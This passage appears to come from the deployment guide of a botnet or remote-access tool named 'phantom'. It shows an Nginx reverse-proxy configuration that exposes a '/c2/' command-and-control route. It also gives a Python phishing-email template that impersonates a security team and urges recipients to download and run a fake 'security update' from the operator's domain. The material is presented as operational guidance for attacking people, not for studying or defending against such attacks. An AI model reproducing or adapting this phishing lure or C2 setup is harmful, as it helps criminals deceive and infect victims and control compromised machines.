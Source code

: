 ### 2. Reverse Proxy (Nginx)
```nginx
server {
    listen 80;
    server_name phantom.yourdomain.com;
    return 301 https://$server_name$request_uri;
}

server {
    listen 443 ssl;
    server_name phantom.yourdomain.com;
    
    ssl_certificate /path/to/cert.pem;
    ssl_certificate_key /path/to/key.pem;
    
    location / {
        proxy_pass http://localhost:5000;
        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
    }
    
    location /c2/ {
        proxy_pass http://localhost:8443/;
        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
    }
}
```

## 📦 BOT DEPLOYMENT STRATEGIES

### 1. Email Phishing Campaign
```python
# phishing_template.py
import smtplib
from email.mime.text import MIMEText
from email.mime.multipart import MIMEMultipart

def send_phishing_email(target_email, activation_code):
    msg = MIMEMultipart()
    msg['From'] = 'noreply@yourdomain.com'
    msg['To'] = target_email
    msg['Subject'] = 'Important Security Update Required'
    
    body = f"""
    Dear User,
    
    We have detected suspicious activity on your account. 
    Please download and run the security update immediately.
    
    Download Link: https://phantom.yourdomain.com/activate
    Activation Code: {activation_code}
    
    This is urgent - please act now to secure your account.
    
    Best regards,
    Security Team
    """
    
    msg.attach(MIMEText(body, 'plain'))
    
    # Send email logic here
```